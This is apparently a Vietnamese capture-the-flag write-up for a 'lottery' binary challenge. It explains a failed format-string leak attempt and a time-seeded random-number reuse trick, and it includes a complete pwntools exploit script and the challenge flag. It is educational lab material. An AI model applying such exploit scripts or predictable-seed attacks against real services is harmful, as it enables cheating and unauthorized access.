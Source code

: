 **SOLUTION**

hmmm....Bài này lúc đầu mình cũng thấy khá là ngô khoai.

Đầu tiên nó sẽ yêu cầu mình nhập tên với độ dài bằng 10 thông qua hàm:
```sh
fgets(name,10,stdin);
```

Sau đó nó sẽ in ra Hello + name vừa nhập và yêu cầu người chơi nhập 1 số bất kỳ, nếu trùng với số được cộng từ 2 số random của hệ thống thì mình sẽ lấy được flag.

Vấn đề này thì đơn giản hơn nhiều khi chương trình có sử dụng hàm `srand(0)` nhưng ở đây chương trình này sử dụng `srand(time(0))` để gọi 1 số random nên sẽ hơi khó 1 tí.

Vì mình không thể đoán chính xác số ấy được, nên mình sẽ cần leak số ấy ra thôi. Nhưng tiếc là mình hem leak được :((

Vậy thôi,.... mình chơi ăn gian 1 tí. Mình sẽ nhập đại 1 giá trị, sau đó mình bắt giá trị của server in ra sau câu `The lucky number is` để làm giá trị cho lần kết nối sau. Nhưng do mình làm tự động bằng file nên thời gian ko chênh lệch nhiều nên srand(time(0)) của 2 lần sẽ ko thay đổi. Mình nghĩ như vậy. Và xem nào, nó dùng được này....

Đây là file exploit.py của mình

```sh
from pwn import *
temp1 = "1111111"
#s = remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("%7$x")
s.recvuntil("Hello")
temp = s.recvline()
log.info(">> {}".format(temp))
s.sendline(temp1)
s.recvuntil("The lucky number is")
temp1 = s.recvuntil("\n")
log.info("Value >> {}".format(temp1))
#s =remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("Hazir")
s.sendline(temp1)
s.interactive()
s.close()
```

Run và hồi hộp chờ thôi nèo... Tadaaaaa 

**FLAG**

`efiensctf{ULTRA_MEGA_SUPER_HUGE_VIETLOT_JACKPOT}`